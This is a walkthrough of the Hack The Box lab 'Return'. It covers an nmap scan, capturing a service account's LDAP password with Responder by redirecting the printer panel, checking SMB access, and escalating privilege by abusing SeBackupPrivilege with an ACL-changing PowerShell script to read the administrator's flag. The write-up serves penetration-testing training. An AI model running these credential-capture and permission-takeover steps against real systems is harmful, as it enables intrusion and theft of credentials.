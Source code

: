 # Return

Return is a easy HTB lab that focuses on exploit network printer administration panel and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

### Recon

The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.

```
[★]$ IP=10.129.95.241
[★]$ sudo nmap -p- -sV -sC $IP

Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-05 04:23 GMT
Stats: 0:00:44 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 16.00% done; ETC: 04:25 (0:00:32 remaining)
Nmap scan report for 10.129.95.241
Host is up (0.024s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-05 04:43:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m34s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-01-05T04:44:12
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.84 seconds
```

### User
Adding new domains to `/etc/hosts`. `sudo tee --append /etc/hosts <<< "10.129.95.241 return.local0 return.local"`

`printer.return.local` makes ldap request for `svc-printer` password update. Let's cature this:

We can make the request to our server instead of printer.return.local to capture this request credentials:
```
$ sudo responder -I tun0

[LDAP] Cleartext Client   : 10.129.95.241
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1ed******012!!
```

[★]$ sudo crackmapexec smb return.local -u 'svc-printer' -p '1ed******012!!' --shares
```
SMB         return.local0   445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         return.local0   445    PRINTER          [+] return.local\svc-printer:1ed******012!!
SMB         return.local0   445    PRINTER          [+] Enumerated shares
SMB         return.local0   445    PRINTER          Share           Permissions     Remark
SMB         return.local0   445    PRINTER          -----           -----------     ------
SMB         return.local0   445    PRINTER          ADMIN$          READ            Remote Admin
SMB         return.local0   445    PRINTER          C$              READ,WRITE      Default share
SMB         return.local0   445    PRINTER          IPC$            READ            Remote IPC
SMB         return.local0   445    PRINTER          NETLOGON        READ            Logon server share 
SMB         return.local0   445    PRINTER          SYSVOL          READ            Logon server share 
```

Using these credentials, we can get the user flag:

*Evil-WinRM* PS C:\Users\svc-printer\Documents> type ..\Desktop\user.txt
```
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation

Checking the permissions of the current users:
```
*Evil-WinRM* PS C:\Users\svc-printer> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

Based on this privilege, we can search for the exploits for `SeBackupPrivilege`. Using this, we can exploit using https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Acl-FullControl.ps1

Updating the permissions of the folder so that we can read the flag:
```
*Evil-WinRM* PS C:\Users\svc-printer> Import-module .\acl.ps1; Acl-FullControl -user svc-printer -path c:\users\administrator\
[+] Current permissions:


Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\administrator\
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         RETURN\Administrator Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:P(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)

[+] Changing permissions to c:\users\administrator\
[+] Acls changed successfully.

Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\administrator\
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         RETURN\Administrator Allow  FullControl
         RETURN\svc-printer Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:PAI(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)(A;OICI;FA;;;S-1-5-21-3750359090-2939318659-876128439-1103)
```

Getting the flag:
```
*Evil-WinRM* PS C:\Users\svc-printer> type ..\Administrator\Desktop\root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
